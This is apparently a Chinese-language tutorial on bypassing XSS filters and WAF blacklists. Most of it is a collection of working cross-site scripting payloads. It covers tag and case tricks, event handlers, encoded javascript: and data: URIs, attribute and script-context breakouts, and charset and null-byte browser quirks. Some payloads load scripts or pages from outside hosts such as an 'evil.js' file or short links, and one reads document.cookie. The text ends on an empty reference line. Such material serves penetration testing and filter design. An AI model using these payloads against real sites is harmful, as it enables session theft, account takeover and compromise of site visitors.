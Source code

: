 # Bypass xss过滤的测试方法

## Bypassing黑名单

> 大多数的场所是用的黑名单做过滤器，有三种方式绕过黑名单的测试

```
1.暴力测试（输入大量payload，看返回结果）
2.根据正则推算
3.利用浏览器漏洞
```

### 初步测试

1. 尝试插入正常的html标签，例如：`<b>，<i>，<u>`来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。
2. 尝试插入不闭合的标签，例如：<b,<img, 然后看一下返回响应，是否对开放的标签也有过滤
3. 然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：

```
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<script src="http://rhainfosec.com/evil.js">
```

看返回响应，是否过滤了全部，是否还留下alert,prompt,confirm字符，再尝试大小写的组合：

```
<scRiPt>alert(1);</scriPT>
```

4. 如果过滤器只过滤<script>和</script>标签过滤掉，那么可以用

```
<scr<script>ipt>alert(1);</scr<script>ipt>
```

来过滤，当<script>被过滤时，剩下组合刚好形成一个完整payload

5. 用<a href 标签来测试，看返回响应

```
<a href="http://www.baidu.com">click</a>
```

> 关注`a`标签是否被过滤，`href和href`里面的数据是否被过滤

如果没有被过滤，插入javascript协议看看：

```
<a href="javascript:alert(1)">Clickme</a>
```

> 是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换

继续测试触发事件javascript：

```
<a href="" onmouseover=alert(1)>Clickme</a>
```

查看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：

```
<a href=" " onvlimbatree=alert(1)>ClickHere</a>
```

是完整返回，还是跟onmouseover一样被过滤了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：

```
<body/onhashchange=alert(1)><a href=#>clickit
```



### 测试其他标签

1. Src属性

```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);>
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>
```

2. iframe标签

```
<iframe src="javascript:alert(2)">
<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```

3. embed标签

```
<embed/src=//goo.gl/nlX0P>
```

4. action属性

利用<form,<isindex等标签中的action标签属性执行javascript

```
<form action="javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
<isindex action=data:text/html,type=image>
<formaction='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK
```

5. background属性

```
<table background=javascript:alert(1)></table>    //opera10.5 和IE6上有效
```

6. poster属性

```
<video poster=javascript:alert(1)//></video>
```

7. data属性

```
<object data="data:text/html:base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/n1XOP>
```

8. code属性

```
<applet code="javascript:confirm(document.cookie);">  //firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
```

9. 事件触发

```
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
```

10.  最短的测试向量

```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效
```

11. 嵌套

```
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效
```

12. 过滤括号的情况

可以使用throw来过滤

```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```

以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：

```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

13. expression属性

```
<img style="xss:expression(alert(0))"> // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```

14. location属性

```
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123
```

15. 其他一些payload

```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
```

16. 当= ( ) ; :被过滤时

```
<svg><script>alert&#40/1/&#41</script> // 通杀所有浏览器
```





### 实体编码

很多情况下WAF会实体编码用户的输入数据，

javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：

属性：

```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
```

支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

属性：

```
data=
```

支持的编码：base64

### 基于上下文的过滤

WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

#### 输入在属性里

```
<input value="XSStest" type=text>
```

可控位置为XSStest，可以使用

```
"><img src=x onerror=prompt(0);>
```

如果`< >`被过滤的话可以换成

```
" autofocus onfocus=alert(1)//
```

同样还有很多其他的payload：

```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="
```

#### 输入在script标签中

例如：

```
<script>
Var x="Input";
</script>
```

可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了

```
";alert(1)//
```

最终结果就是

```
<script>
Var x="";alert(1)//
</script>
```

#### 非常规的事件监听

例如：

```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```

下面是一些相同的类：

```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
```

#### HREF内容可控

例如：

```
<a href="Userinput">Click</a>
```

可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：

```
javascript:alert(1)//
```

最后组合为：

```
<a href="javascript:alert(1)//">Click</a>
```

#### 变换

使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

#### JavaScript变换

使用javascript协议时可使用的例子：

```
javascript&#00058;alert(1)
javaSCRIPT&colon;alert(1)
JaVaScRipT:alert(1)
javas&Tab;cript:\u0061lert(1);
javascript:\u0061lert&#x28;1&#x29
javascript&#x3A;alert&lpar;document&period;cookie&rpar;
```

#### Vbscript变换

```
vbscript:alert(1);
vbscript&#00058;alert(1);
vbscr&Tab;ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

#### JSON

当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了

```
encodeURIComponent('userinput')
```

userinput处可控，测试代码：

```
-alert(1)-
-prompt(1)-
-confirm(1)-
```

最终结果：

```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")
```

#### SVG标签

当返回结果在svg标签中的时候，会有一个特性

```
<svg><script>varmyvar="YourInput";</script></svg>
```

YourInput可控，输入

```
www.site.com/test.php?var=text";alert(1)//
```

如果把"编码一些他仍然能够执行:

```
<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
```

### 浏览器bug

字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
```

这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);>
```

返回结果可以看到双引号被编码了：

```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value="&quot;&gt;&lt;img src=x onerror=prompt(0);&gt;"></input>
</body>
</html> 
```

设置字符集为UTF-32：

```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```

上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：

```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```

在IE9及以下版本有效。

其他等等一系列浏览器特性的XSS可以参考以下文章：

